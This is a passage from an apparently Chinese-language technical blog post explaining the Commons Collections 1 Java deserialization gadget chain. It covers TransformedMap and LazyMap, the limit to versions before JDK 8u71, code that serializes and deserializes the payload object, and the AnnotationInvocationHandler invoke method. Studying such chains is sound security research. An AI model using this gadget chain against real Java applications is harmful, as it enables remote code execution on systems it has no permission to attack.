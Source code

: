 而这里还需要注意，前面传入Retention.class和这里设置Map的key为`value`，是一些特定的条件来让AnnotationInvacationHandler和TransformedMap.decorate走到我们预期的分岔。

```java
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream  oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
```

最终就能在8u71版本前正常打通，而8u71之后的版本，由于AnnotationInvocationHandler发生了变化，不会直接使用反序列化得到的Map对象，而是新建一个LinkedHashMap并添加Key进去，原来的Map不会执行set/put操作，也就走不到之后的回调了。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230914165207.png)

### LazyMap

> ysoseial 中的 cc1 用的是LazyMap而不是TransformedMap

LazyMap和 TransformedMap 区别在于，它不是在写入元素时执行transform，而是在get方法中执行factory.tranform。因为LazyMap本身用于懒加载，因此在get找不到值时会调用factory.transform。

但在之前的gadget中，AnnotationInvationHandler的readObject会调用setValues，从而触发后续transform的一系列回调，但是并不会调用LazyMap的get方法，因此这里就有了差别。

ysoserial的作者用AnnotationInvacationHandler类的Invoke方法，调用了LazyMap的get方法：

```java
    public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
        } else if (var5.length != 0) {
            throw new AssertionError("Too many parameters for an annotation method");
        } else {
            switch (var4) {
                case "toString":
                    return this.toStringImpl();
                case "hashCode":
                    return this.hashCodeImpl();
                case "annotationType":
                    return this.type;
                default:
                    Object var6 = this.memberValues.get(var4);
                    if (var6 == null) {
                        throw new IncompleteAnnotationException(this.type, var4);
                    } else if (var6 instanceof ExceptionProxy) {
                        throw ((ExceptionProxy)var6).generateException();
                    } else {
                        if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                            var6 = this.cloneArray(var6);
                        }

                        return var6;
                    }
            }
        }
    }
```
